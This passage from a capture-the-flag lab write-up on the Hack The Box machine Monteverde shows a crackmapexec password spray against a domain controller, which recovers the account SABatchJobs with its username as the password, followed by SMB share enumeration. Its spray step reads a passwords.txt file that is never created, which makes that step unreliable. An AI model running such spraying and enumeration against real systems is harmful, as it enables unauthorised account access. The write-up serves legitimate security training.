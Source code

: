 ```
cn: Guests

[...]
```

## Password spraying

To password spray, I usually start with a small wordlist then expand if I don't find anything. Here, we'll create a custom wordlist using the smaller rockyou list and the list of users in case some users are using their username as the password:

```
root@kali:~/htb/monteverde# cat << EOF > users.txt
> Guest
> AAD_987d7f2f57d2
> mhope
> SABatchJobs
> svc-ata
> svc-bexec
> svc-netapp
> dgalanos
> roleary
> smorgan
> EOF
root@kali:~/htb/monteverde# cat ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-10.txt >> users.txt
```

Then we'll use crackmapexec to spray the credentials. Another tool like kerbrute could also be used for this since port 88 is open.
```
root@kali:~/htb/monteverde# cme smb 10.10.10.172 -u /root/htb/monteverde/users.txt -p /root/htb/monteverde/passwords.txt | grep -v FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs
```

Here we go, we got a valid account: `SABatchJobs / SABatchJobs`

Checking shares...

```
root@kali:~/htb/monteverde# cme smb 10.10.10.172 -u SABatchJobs -p SABatchJobs --shares
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [+] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```

